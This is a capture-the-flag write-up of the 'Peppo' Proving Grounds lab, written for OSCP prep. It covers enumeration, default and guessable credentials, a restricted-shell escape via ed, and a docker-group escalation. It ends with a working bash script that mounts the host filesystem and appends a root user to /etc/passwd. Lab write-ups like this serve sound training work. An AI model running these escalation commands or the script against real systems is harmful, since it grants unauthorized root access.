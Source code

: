 ```yaml
---
layout: writeup
title: Peppo - Proving Grounds
date: 2024-07-18 13:32:20 +0300
description: A Writeup of the Peppo Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi]
---
```


Here's a writeup for Marketing, an Intermediate Proving Grounds box I saw on the LainKusunagi OSCP Prep List. I take note that the community has rated this Hard. Let's kick things off with a port scan using nmap: `sudo nmap -p- -T4 -v 192.168.242.60`.

```
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
113/tcp   open   ident
5432/tcp  open   postgresql
8080/tcp  open   http-proxy
10000/tcp open   snet-sensor-mgmt
```

Pretty quickly we see there is a port open on 8080, so I go to the browser to check it and begin a gobuster scan to check for any particularly interesting directories. 

![Peppo1.png](/assets/images/Peppo/Peppo1.png){: .center-aligned width="600px"}
The directory scan shows a page called `/users` which prompts us to login. I try `admin:admin` which works, but we get prompted for a new password (`party321`). I click around a while in the application and check for exploits online. While I'm enumerating the site, I create a test project to see what that does. I can't exactly tell, but once I'm in the project, I see a field for files, and that reminds me of a settings page with allowed extensions. 

![Peppo2.png](/assets/images/Peppo/Peppo2.png){: .center-aligned width="600px"}

I add a few, including Ruby due to Wappalyzer. I create a ruby shell and upload it, but it seems to only show the text when clicking the file after.

![Peppo3.png](/assets/images/Peppo/Peppo3.png){: .center-aligned width="600px"}
Maybe there's another way to execute or access, but I don't immediately see one in browser or in my still-running gobuster scan. 

I try an [exploit](https://github.com/slowmistio/Redmine-CVE-2019-18890) I saw earlier on, but I can't seem to get it working. It is a SQL injection with a sample `SLEEP(5)` injection, and the output says it was successful, but it doesn't take 5 sections, and it says it's successful even when I use a URL with a sub-directory that doesn't exist. Checking the Information panel in the admin console shows us that we are working with `Redmine version 4.1.1.stable`, so that's probably a dead end. It may be time to explore ports 113, 5432, and 10000. 

I check out port 113 which is running ident. I don't know much about it, but apparently it associates TCP connections with a specific user, and we can install `ident-user-enum` with apt. So I run it on the open ports, and get `ident-user-enum 192.168.242.60 10000` to return `eleanor`. Maybe that's useful. 

I try to use that with `psql` to connect to the PostgreSQL service, but I can't get that working. Port 10000 returns 'Hello World' in browser, but Wappalyzer suggests this is ultimately coming from Redmine, and is not a webserver for which we can scan the directory. 

After a few hours I give up and look for a hint. It turns out we can log in through SSH using `eleanor:eleanor`. I have rarely if ever seen that in a lab like this. SSH usually seems to be for administration for the lab, not the first foothold. So that's lesson learned 1 - remember to try that. Dumb. But I SSH in and find the shell is restricted. 

![Peppo4.png](/assets/images/Peppo/Peppo4.png){: .center-aligned width="600px"}

I can't `cd`, `cat`, or redirect output (`>` or `>>`), and a number of basic commands are not found. I try to use `scp` to copy files into eleanor's home directory, but I get a connection closed. We can however `echo $PATH` which returns `/home/eleanor/bin`, and then we can `ls /home/eleanor/bin` to find which commands we can run. 
![Peppo5.png](/assets/images/Peppo/Peppo5.png){: .center-aligned width="600px"}

Maybe we can use one of those. Gtfobins says we can use `ed` to break out of a restricted environment so I run `ed` and `!/bin/sh`. This kind of works, but tit turns out we need the full path to run some commands like `cat`. 

![Peppo6.png](/assets/images/Peppo/Peppo6.png){: .center-aligned width="600px"}

Not that big of a deal. I can also cd into helloworld and find `index.js` which shows: 

```
const http = require('http');
const hostname = '0.0.0.0';
const port = 10000;
http.createServer((req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/plain' });
  res.end('Hello World\n');
}).listen(port, hostname, () => {
  console.log('Server running...');
});

```

That looks like what we see in port 10000. I try echoing a .js shell in the same directory, but the permission is denied. The `find` command is not on the machine either to help find SUID binaries. `Sudo` isn't either. I upload lse, les, and linpeas to try those out using the full path of `/usr/bin/wget` (or simply using a penelope shell and using native commands to upload it).

Linpeas really wants us to notice the docker group we are a part of. 

![Peppo7.png](/assets/images/Peppo/Peppo7.png){: .center-aligned width="600px"}

I check for docker commands on gtfobins, and most of them seem to need some kind of downloaded image. For example when I run `CONTAINER_ID="$(docker run -d alpine)"`, I get the response, `Unable to find image 'alpine:latest' locally` - same with debian which we are actually on according to `/bin/uname -a`. Apparently docker images are usually stored in `/var/lib/docker`, but we don't have access. I can however run `/usr/bin/docker ps -a` to get a list of all images and see that redmine and postgres are available. Unfortunately even substituting these images does not seem to allow us to overwrite `/etc/sudoers` (like in [Nukem](remember to link)) or `/etc/passwd` as in others. It also won't allow me to read protected files so I'm not exactly sure why linpeas flagged it.

After a few more hours I give up and check a writeup. Turns out I did need docker, and I was just looking at the wrong code on gtfobins. I can't use it to do privileged read or writes, but just using it to get a shell automatically gives you a root shell. 

![Peppo8.png](/assets/images/Peppo/Peppo8.png){: .center-aligned width="600px"}

My experience to this point is that this section of gtfobins just gets you a shell. This is what we did with `ed` actually, but it didn't give you a root shell. Now I know I guess. 

![Peppo9.png](/assets/images/Peppo/Peppo9.png){: .center-aligned width="600px"}

Lessons learned: Try to log into ssh even though it's a Proving Grounds lab, and make sure to do a little more reading on the topic. After I "completed" the lab, I went back and read a little bit more to try to solidify my understanding. [This](https://flast101.github.io/docker-privesc/)post helped. It also pointed out that I was only still in the container, but I was able to read the proof flag. So I did go ahead and edit /`/etc/passwd` and create a new user with a password generated from openssl. I was able to ssh using that user getting full root access over the machine. 

That same post also had a script PoC. The version posted did not work because we had to change a lot of different commands to their full paths, so it took a bit of trial and error. The final script looks like this: 

```
#!/bin/bash

docker_test=$( /usr/bin/docker ps | /bin/grep "CONTAINER ID" | /usr/bin/cut -d " " -f 1-2 ) 

if [ $(/usr/bin/id -u) -eq 0 ]; then
    echo "The user islready root. Have fun ;-)"
    exit
    
elif [ "$docker_test" == "CONTAINER ID" ]; then
    echo 'Please write down your new root credentials.'
    read -p 'Choose a root user name: ' rootname
    read -s -p 'Choose a root password: ' passw
    hpass=$(/usr/bin/openssl passwd -1 -salt mysalt $passw)

    echo -e "$rootname:$hpass:0:0:root:/root:/bin/bash" > new_account
    mv new_account /tmp/new_account
    /usr/bin/docker run -tid -v /:/mnt/ --name flast101.github.io redmine # CHANGE THIS IF NEEDED
    /usr/bin/docker exec -ti flast101.github.io sh -c "/bin/cat /mnt/tmp/new_account >> /mnt/etc/passwd"
    sleep 1; echo '...'
    
    echo 'Success! Root user ready. Enter your password to login as root:'
    /usr/bin/docker /bin/rm -f flast101.github.io
    /usr/bin/docker image /bin/rm redmine
    /bin/rm /tmp/new_account
    /bin/su $rootname

else echo "Your account does not have permission to execute docker or docker is not running, aborting..."
    exit

fi

```

Note that some of the commands require `/usr/bin/$command` and some just `/bin/$command`. Eventually I did get it working though, so that was always an option. I found this blog earlier in my research but failed to properly read through it, so again this is another box that I shouldn't have needed a writeup for. I got up with the intention of reading it when I sat back down and failed to do so. Not great, but now I know, and at least I punished myself with a few hours of looking aimlessly around the box. 

** Bonus: This escalation path is featured in the last video of [TCM's Linux Privilege Escalation Course](https://academy.tcm-sec.com/courses/) which I happened to view the very next day. 

